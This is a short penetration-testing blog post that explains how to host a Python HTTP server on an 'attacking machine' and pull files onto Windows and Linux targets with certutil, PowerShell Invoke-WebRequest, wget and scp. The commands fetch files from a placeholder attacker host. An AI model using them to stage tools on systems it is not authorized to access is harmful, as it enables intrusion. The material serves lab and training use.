```yaml
---
title: "File Transfer"
collection: posts
#type: "Undergraduate course"
permalink: /posts/2023-spring-teaching-3
#venue: "University 1, Department"
date: 2014-01-01
location: "City, Country"
---
```


File transfer between Linux and Windows



Before talking about how to transfer a file,let's start by how you can host a server on your attacking machine.

## Using Python


```bash
python3 -m  http.server  PORT_NUMBER
```
  
  

Now let's see how you can tranfer files on windows and linux

  

## Windows:

**cmd :**

```bash

certutil.exe -urlcache -f http://X.X.X.X:PORT/FILE_NAME FILE_NAME

```

**powershell :**

```powershell
powershell -c "Invoke-WebRequest -Uri 'http://X.X.X.X:PORT/FILE_NAME' -OutFile 'PATH\TO\FILE'"
```

## Linux

```bash
wget http://X.X.X.X/FILE_NAME  FILE_NAME
```

There is another way to transfer files using **scp** command where you don't need to host a server on your machine but you must have the credentials of the machine that you will transfer the file to.

```bash
scp FILE_NAME USER_NAME@X.X.X.X:/PATH/TO/FILE
```
